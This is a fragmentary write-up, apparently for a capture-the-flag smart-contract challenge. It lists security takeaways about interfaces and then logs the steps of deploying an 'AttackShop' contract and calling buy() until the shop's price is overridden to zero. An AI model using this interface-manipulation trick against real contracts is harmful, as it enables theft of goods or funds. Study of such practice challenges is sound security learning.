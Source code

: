 *Key Security Takeaways
Don’t let interface function unimplemented. 
Interfaces do not guarantee contract security. 
Remember that just because another contract uses the same interface, doesn’t mean it will behave as intended! >contract.address
'0xb8EE4846EA4E67ad149aaf1a3AdbA34E65D669d4'

//select contract of AttackShop.sol, then Deploy shop of contract address '0xb8EE4846EA4E67ad149aaf1a3AdbA34E65D669d4'

//check the "price"  
0: uint256: 100 
//check the "shop" 0:
address: 0xb8EE4846EA4E67ad149aaf1a3AdbA34E65D669d4

//call buy send to zero, it's gonna be true when it call twice 
[block:10964719 txIndex:4]from: 0xF6e...f30F5to: AttackShop.buy() 0x360...36Da3value: 0 weidata: 0xa6f...2ae3alogs: 0hash: 0x9d4...c5039

//check the "price" again -> zero. succesed override price "zero"
0:uint256: 0
[call]from: 0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5to: AttackShop.price()data: 0xa03...5b1fe